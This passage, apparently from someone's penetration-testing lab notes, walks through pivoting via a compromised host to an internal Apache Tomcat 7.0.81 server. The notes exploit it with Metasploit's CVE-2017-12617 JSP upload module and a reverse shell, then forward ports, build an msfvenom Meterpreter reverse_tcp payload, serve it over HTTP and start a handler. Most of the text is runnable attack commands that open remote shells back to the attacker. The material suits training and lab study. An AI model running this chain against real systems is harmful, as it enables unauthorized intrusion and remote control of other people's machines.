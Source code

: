 remember the port must be the same as proxychains.conf file
now we can set our browser, in the proxy config, in the socks session, set the kali ip with the right port
we can open the page 10.100.11.100:8443 from that weird port that was open
a apache tomcat 7.0.81 page opens, if we search For vulnerability For that version of apache	

-  we get CVE-2017-12617
	metasploit has this exploit, but first we need to set a proxy


- why do we need to set a proxy?
	because its a internal network, we got set the proxy, For the target of the internal network can receive our payload

```powershell
use post/windows/manage/portproxy
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 4444
set LOCAL_ADDRESS 10.100.11.101 = its the first host we compromise.
set LOCAL_PORT 4444
set session 1
run

use exploit/multi/http/tomcat_jsp_upload_bypass
set options
set payload java/jsp_shell_reverse_tcp
set rport 8443 = that is the port that we access the apache page
run
// we should get a shell back
```

### upgrade the shell to a meterpreter shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.100.11.101 LPORT=4444 -f exe > /tmp/payload.exe

python3 -m http.server 8000
```

### lets add another port in the portproxy
use post/windows/manage/portproxy
```powershell
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 8000
set LOCAL_ADDRESS 10.100.11.101 = its the first host we compromise.
set LOCAL_PORT 8000
set session 1
run
```

> [!NOTE] cool

### set a handler
```powershell
jobs -K = to kill all jobs opens
use exploit/multi/handler
set options
set lport 4444 = the port that we opened with portproxy
exploit -j
```
